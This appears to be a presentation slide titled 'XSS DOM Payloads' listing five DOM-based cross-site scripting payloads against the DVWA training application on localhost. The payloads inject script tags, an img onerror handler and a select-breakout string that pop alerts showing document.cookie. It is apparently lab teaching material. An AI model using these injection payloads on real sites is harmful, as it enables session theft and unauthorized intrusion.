

# XSS DOM Payloads
localhost/DVWA/vulnerabilities/xss_d/?default=<script>alert(document.cookie);</script>
localhost/DVWA/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>&default=English
/vulnerabilities/xss_d/?default=English<script>alert(1)</script>
/vulnerabilities/xss_d/?default=English>/option></select><img src='x' onerror='alert(1)'>
/vulnerabilities/xss_d/?default=English#<script>alert(1)</script>